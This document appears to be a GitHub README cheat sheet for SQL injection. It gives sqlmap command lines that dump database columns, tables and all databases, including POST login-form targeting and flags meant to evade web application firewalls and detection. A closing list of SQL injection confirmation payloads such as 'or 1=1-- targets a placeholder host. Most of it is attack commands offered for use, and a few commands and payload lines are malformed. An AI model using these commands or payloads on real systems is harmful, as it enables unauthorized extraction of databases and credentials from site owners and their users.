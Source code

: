 						
<h2>SQLmap Usage</h2>


 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**

 For GET Request
```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```
 For POST Request
```
sqlmap -u "url/login" --data "username=a&password=b&xyz=c" -p "username,password" --method POST --skip-waf --random-agent --threads 10 -o --dbs --dump

```

<h2> SQL Injection Confirmation<h2>
 
 ```
 http://hack.com/’

 http://hack.com/"

 or 1=1 

 ‘or 1=1

 “or 1=1

  or 1=1–

 ‘or 1=1–

 “or 1=1–

  or 1=1#

 ‘or 1=1#

 “or

  1=1#

  or 1=1/*

 ‘or 1=1/*

 “or 1=1/*

  or 1=1;%00

 ‘or 1=1;%00

 “or 1=1;%00

 ‘or’

 ‘or

 ‘or’–

 ‘or–

  or a=a

 ‘or a=a

 “or a=a

  or a=a–

 ‘or a=a —

 “or a=a–

  or ‘a’=’a’

 ‘or ‘a’=’a’

 “or ‘a’=’a’

 ‘)or(‘a’=’a’

 “)”a”=”a”

 ‘)’a’=’a

 ‘or”=’
```
